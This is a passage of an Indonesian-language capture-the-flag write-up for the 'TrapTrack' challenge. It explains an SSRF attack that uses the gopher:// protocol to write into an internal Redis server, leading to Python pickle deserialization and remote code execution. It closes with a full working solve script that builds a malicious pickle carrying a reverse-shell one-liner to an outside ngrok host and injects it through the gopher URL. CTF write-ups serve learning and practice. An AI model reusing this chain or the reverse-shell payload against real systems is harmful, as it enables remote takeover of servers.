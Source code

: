 ```python
```

Jalankan script tersebut dan kita akan mendapatkan flag di webhook yang sudah kita set.

![https://i.imgur.com/w1M9Acd.png](https://i.imgur.com/w1M9Acd.png)

# **TrapTrack**

Tag: (SSRF With gopher protocol, Python Pickle Deserialization To RCE)

Untuk challenge ini kita bisa memanfaatkan vulnerability di pycurl dengan menggunakan protocol `gopher://` untuk membuat raw request ke internal redis server, vulnerability ini bisa kita dapatkan di source code pad file `/worker/healthcheck.py`, untuk lebih lengkapnya tentang vulnerability ini bisa dilihat di link berikut [link](https://infosecwriteups.com/exploiting-redis-through-ssrf-attack-be625682461b).

Setelah itu kita bisa membuat `worker` palsu dan mentrigger pickle load pada fungsi `get_work_item()` pada file `/worker/main.py` memanfaatkan python pickle yang digunakan pada service untuk melakukan RCE.

Berikut solve script yang saya gunakan untuk menyelesaikan challenge ini.

```python
import requests
from base64 import b64encode

SESSION = {"session": "77031d23-0eb7-4502-98bd-7a6b93cacecc"}
URL="http://165.227.224.40:31590"

def add_track(payload, url=URL):
   res = requests.post(url+"/api/tracks/add", cookies=SESSION, json={
       "trapName": "foo",
       "trapURL": payload,
   })
   return res.text

import pickle

def job_status(trackid, url=URL):
   res = requests.get(url+f"/api/tracks/{trackid}/status", cookies=SESSION)
   return res.text

class PickleRCE(object):
   def __reduce__(self):
       import os
       return (os.system,(command,))

connect = ("0.tcp.ap.ngrok.io", 13672)
command = f"""python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("%s",%s));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'""" % connect

a = pickle.dumps(PickleRCE())
b = b64encode(a).decode()
print(add_track("gopher://127.0.0.1:6379/_HSET%20jobs%20200%20"+b+"%0A"))
print(job_status("200"))

```
